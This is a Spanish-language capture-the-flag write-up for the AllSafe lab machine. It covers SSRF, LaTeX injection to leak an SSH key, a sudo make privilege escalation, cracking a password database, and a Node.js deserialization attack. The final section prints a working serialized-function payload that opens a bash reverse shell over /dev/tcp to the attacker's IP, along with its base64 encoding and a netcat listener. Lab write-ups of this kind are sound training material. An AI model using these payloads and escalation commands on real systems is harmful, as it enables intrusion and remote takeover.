# 🖥️ Write-Up: [ALLSAFE](https://labs.thehackerslabs.com/machine/139)

## 📌 Información General
    - Nombre de la máquina: AllSafe
    - Plataforma: The Hacker Labs
    - Dificultad: Profesional
    - Creador: d4redevil
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---


## 🔍 Enumeración

La máquina AllSafe posee la IP 10.0.5.24

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina, quedándonos únicamente con los abiertos.



La máquina tiene abiertos los puertos 22, 80 y 2222. Por lo tanto, vamos a proceder con el escaneo de los servicios y versiones que se ejecutan en ellos.



La máquina posee dos servicios de ssh en los puertos 22 y 2222, y un servicio web de Apache en el puerto 80.

### Puerto 80

Accedemos a la 10.0.5.24 con el navegador y vemos la web de una empresa de ciberseguridad.



Si revisamo el código fuente, observamos que se está aplicando virtual hosting.



Por lo tanto, vamos a modificar nuestro archivo **/etc/hosts** y añadirle el dominio de **allsafe.thl** para que nuestro navegador lo puede interpretar.



Ahora si accemos a allsafe.thl nuestro navegador nos llevará a la página.

Revisando la web encontramos los siguientes subdirectorios:  
    - index.php  
    - our-history.php  
    - our-team.php  
    - contact.php  

Aplicando Fuzzing con la herramienta **gobuster** no encontramos nada interesante. Por lo tanto, vamos a revisar los subdirectorios que tenemos.

En **our-team.php** aparecen los nombres, fotos y funciones de los miembros de la empresa, lo cual nos puede dar pistas sobre algún nombre de usuario, además hay una foto que nos llama mucho la atención, ya que se puede observar una credencial en ella.


En **contact.php** tenemos un formulario de contacto con los campos nombre, email, sitio web y mensaje, si enviamos datos recibimos el mensaje "Enviando con exito!".

Vamos a revisar el formulario. Tras varias pruebas, al intentar realizar un SSRF en el campo sitio web, para ver si podíamos apuntar a recursos internos de la máquina, obtenemos un mensaje diferente, **123456Seven**, al introducir `http://localhost` en sitio web.



Parece ser una contraseña. Ya que tenemos los nombres de los miembros del equipo y esta contraseña, podemos intentar ingresar por alguno de los dos puertos de ssh, pero obviamente no iba a ser tan fácil.

Ya hemos revisado subdirectorios sin éxito, así que vamos a utilizar la herramienta **wfuzz** para buscar subdominios.



Y encontramos un subdomnio **intranet**. Ahora tenemos que añadirlo al **/etc/hosts** para poder tener acceso a él desde el navegador.



Si accedemos a **intranet.allsafe.thl**, vemos un panel de login, en el cual hay que proporcionar un ID de empleado y una contraseña, los cuales ya hemos obtenido anteriormente.

Pero antes de probar las credenciales, vamos a buscar subdirectorios con la herramienta **wfuzz** en esta nueva web.



El más interesante es el subdirectorio **process**, si accedemos a él vemos:



El contenido que nos interesa está en el subdirectorio output, en el cual hay varios subdirectorios y en ellos podemos encontar documentos pdf y otras extensiones que han sido generadas con LaTex. Además, en algunos de estos documentos pdf podemos ver el contenido del archivo /etc/passwd y diferentes id_rsa del usuario parker.



Intentamos utilizar estas id_rsa para acceder por ssh a los dos puertos de la máquina pero no se obtuvo ningún resultado.

Revisando los subdirectorios de output, tanto en los que se filtra el id_rsa como el /etc/passwd, en los archivos document.tex vemos que el campo "Empresa" es vulnerable a una LaTex Injection.



Eso nos indica que si en esta aplicación podemos generar estos documentos, tenemos una vía para realizar LaTex Injections.

## 🔥 Explotación

Retornando al panel de login, usamos el ID del empleado parker que habíamos obtenido de la imagen y lo ponemos con el formato que se nos indica **0-477-9990** e introducimos la contraseña que obtenimos en el formulario de contacto, **123456Seven**


Una vez dentro, vemos un botón azul "Nuevo Cliente" con el cuál podemos generar los documentos pdf que habíamos visto anteriormente y como ya sabemos, el campo "Empresa" es vulnerable a una LaTex Injection, por lo que vamos a usar la misma inyección que hemos visto para obtener la id_rsa correcta de parker.

Importante, aunque hayamos visto que la inyección se acontece en el campo "Empresa", tras comprobarlo, vemos que por alguna razón los datos que se escriben en el campo "Empresa" se reflejan en el campo "Cliente". Por lo tanto, hay que introducir la inyección en el campo de Cliente.



Guardamos, recargamos la página, buscamos el registro que hemos creado y hacemos click en "Contrato".



Ya tenemos la id_rsa de parker, ahora bien, al copiarla directamente del pdf y pegarla en el editor de texto nano, genera una serie de espacios entre los caracteres que hay que eliminar.

Además, los cinco guiones de los encabezados de apertura y cierra de la key hay que cambiarlos por guiones normales, ya que se pegan con otro formato y son más gruesos.

## 🔑 Acceso SSH al contenedor

Una vez aplicados estos cambios, le damos permisos 600 a la id_rsa y accedemos con ella como el usuario parker al puerto 2222.

```bash
chmod 600 id_rsa

ssh parker@10.0.5.24 -i id_rsa -p 2222
```

Usando el comando `hostname -I` vemos que estamos dentro de un contenedor con la IP 172.18.0.3, por lo tanto, debemos de encontrar la forma de salir de él y llegar a la máquina.

### 🧗 Escalada de Privilegios

Ejecutamos el comando `env` para ver las variables de entorno y observamos que nuestro usuario tiene configurado un directiorio para el servicio mail en **/var/mail/parker**. Si lo revisamos, encontramos un archivo con información muy útil.



Esta clave está en formato hexadecimal, así que usamos xxd para pasarla a string.

```bash
echo '6D7033386E71556654416130494D314F70306157' | xxd -r -p
```

Obtenemos --> **mp38nqUfTAa0IM1Op0aW**

La cual es la contraseña del usuario goddard, así que la utilizamos para convertirnos en **goddard**.

Una vez como el usuario goddard, revisamos sus permisos sudoers.



Podemos utilizar como cualquier usuario make, así que miramos en https://gtfobins.github.io/gtfobins/make/#sudo como subir privilegios y ejecutamos:

```bash
sudo /usr/bin/make -s --eval=$'x:\n\t-'/bin/bash
```

Ya estamos como root en el contenedor, revisando el directorio /root, encontramos un archivo secrets.psafe3.



Para pasarnos ese archivo a nuestra máquina lo vamos a copiar al directorio de la web y así podremos acceder a él.

```bash
cp secrets.psafe3 /var/www/allsafe/
```

Accedemos con el navegador a allsafe.thl/secrets.psafe3 y lo descargamos.

Este archivo es una base de datos cifrada, la cual necesita contraseña para poder acceder a ella, así que vamos a utilizar la herramienta **John the Ripper** y una versión con las primeras 5000 contraseñas del diccionario rockyou que llamaremos **minirock**.

Primero, usamos:
```bash
pwsafe2john secrets.psafe3 > hash
```

Ahora intentamos romper esta hash con john y el minirock.



Abrimos el archivo secrets.psafe3 con **pwsafe** e introducimos la contraseña **rockandroll**



Nos interesa el usuario cisco y su clave, para obtener la contraseña hacemos un doble click sobre ssh[cisco] y se nos copia en la clipboard o bien click derecho > Copy Password to Clipboard. Precaución, si cerramos la base de datos se nos borrará la contraseña de la clipboard y habrá que volver a copiarla.

## 🔑 Acceso SSH a la máquina

Accedemos al servicio de ssh del puerto 22 con las credenciales **cisco:sMpam!dE#8@$$1P%bnV@fFxdqjFFG#**

Una vez dentro ya tenemos la primera flag.



En el directorio /home/cisco vemos los archivos **.unknown** y **darkarmy.bin**.

El contenido del archivo darkarmy.bin está en hexadecimal, usamos xxd para pasarlo a string. 

``` bash
cat darkarmy.bin | xxd -r -p
```
Y obtenemos --> password=drk2025!

Ya adelanto que no nos va a servir.

El archivo .unknown contiene: 

```
"Si quieres comunicarte con nosotros, no vuelvas a usar los canales habituales.
A partir de ahora, todo contacto será únicamente a través del canal seguro.

Conéctate al servidor de mensajería y entra en la sala:
    dark-ops

No intentes usar este acceso para nada más que lo acordado.  
Nosotros decidimos cuándo y cómo se conversa."
```

Según el mensaje hay un canal seguro para las comunicaciones, así que revisamos los servicios internos de la máquina y también, vamos a usar `ps -faux` para ver los procesos.





Vemos que en el puerto 3000 de forma local está ejecuntado un servicio y además, el usuario root está ejecuntando un servicio de node, el cual por defecto suele ejecutarse en el puerto 3000, así que podemos intuir que es el mismo servicio.

Como disponemos de credenciales para conectarnos por ssh, vamos a usar ese servicio para traernos a nuestro puerto 3000 el servicio de node que corre de forma interna en la máquina.

```bash
ssh -L 3000:127.0.0.1:3000 cisco@10.0.5.24
```

### 🧗 Escalada de Privilegios

Ahora accedemos con el navegador a nuestro localhost por el puerto 3000 



Como se ha indicado en el mensaje del archivo .unknown, debemos acceder a la sala dark-ops, así que probamos con el usuario cisco y la contraseña que había en darkarmy.bin, pero no funciona.

Tras revisar el sistema en busca de algún archivo con credenciales, encontramos este archivo en **/var/log** cuyo propietario es root pero podemos leer.





Probamos con la contraseña **DLFJYxLLSzp1x5Ttpsffpg2awuJT5K**, junto con el usuario **cisco** y la sala **dark-ops** en el servicio de node y conseguimos conectarnos.



Tras mucho rato revisando la conversación, el código fuente, buscando subdirectorios, intentos de ejecutar comandos con el chat, intentar acceder como el usuario shadow que aparece en los logs,... y no obtener nada, revisamos la cookie de sesión **eyJ1c2VybmFtZSI6ImNpc2NvIn0%3D**



Podemos ver como está urlencodeada, así que la decodificamos usando la web de https://www.urldecoder.org/es/, obtenemos el valor eyJ1c2VybmFtZSI6ImNpc2NvIn0= y lo decodificamos con base64.

```bash
echo 'eyJ1c2VybmFtZSI6ImNpc2NvIn0=' | base64 -d 
```

Obtenemos --> **{"username":"cisco"}**

Este objeto se deserializa por el servidor de node para comprobar el usuario, así que vamos a intentar un Ataque de Deserialización con una IIFE.

Los Ataques de Deserialización son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de serialización y deserialización de objetos en aplicaciones que utilizan la programación orientada a objetos (POO).

Una IIFE, Inmediately Invoked Function Expression, es una función que se ejecuta tan pronto es definida. 

En este caso nos vamos a aprovechar de una mala validación de los datos en el proceso de deserialización de la cookie por el servidor de node.

Así que usaremos el siguiente payload con una IIFE, la cual una vez sea deserializada por el servidor de node, nos mandará una shell al puerto 443 de nuestra máquina. Como el usuario root es quien está ejecutando node, recibiremos una shell privilegiada.

```javascript
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/10.0.5.5/443 0>&1'\", function(error,stdout,stderr){})}()"}
```

Metemos el payload en un archivo llamado payload y después lo pasamos a base64.

```bash
cat payload | base64 -w0
```

El resultado es este --> 
**eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcImJhc2ggLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMC41LjUvNDQzIDA+JjEnXCIsIGZ1bmN0aW9uKGVycm9yLHN0ZG91dCxzdGRlcnIpe30pfSgpIn0K**

Ahora nos ponemos en escucha con **netcat** en el puerto 443. 
```bash
nc -nlvp 443
```

Vamos al navegador y ponemos el payload en base64 como nuevo valor de la cookie.




Nos vamos a la consola del navegador y una vez en ella, usamos socket para desconectarnos y volvernos a conectar, de este modo el servidor deserializará el payload y lo ejecutará.



Y recibimos la shell.



Realizamos el tratamiento de la TTY




Y ya somos root.


